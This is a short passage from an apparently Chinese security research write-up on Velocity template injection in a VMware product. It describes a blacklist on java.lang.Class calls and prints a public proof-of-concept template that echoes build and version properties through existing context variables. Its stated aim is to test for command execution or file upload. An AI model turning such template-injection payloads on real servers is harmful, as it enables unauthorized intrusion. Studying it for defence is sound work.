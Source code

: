 新的 Velocity 版本有一些黑名单来阻止对“java.lang.Class”类方法的调用，就看上下文是否有一些变量存在操作空间。  
[![](assets/1704161823-0e788c16ea08fb57889fbeebbee1fe3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122419-932aef08-491c-1.png)

### velocity poc 分析

所以看是否可以通过 velocity 执行命令或上传文件

```bash
#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##
#set($objectId = "vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid")##
#set($obj = $LOCAL-cdf20Result.newObject("vim.ServiceInstance", $objectId))##
$obj.addProperty("OSTYPE", "VMware can't steal this PoC")##
$obj.addProperty("BUILD", $content-about-build)##
$obj.addProperty("VERSION", $content-about-version)##
```

上面是公开的 poc，只会回显一些系统属性，`$LOCAL-resourceItem`、`$content-about-build`、`$content-about-version`都是 context 里已有的变量。  
这里通过调试获取 context 里的属性做测试，测试代码如下
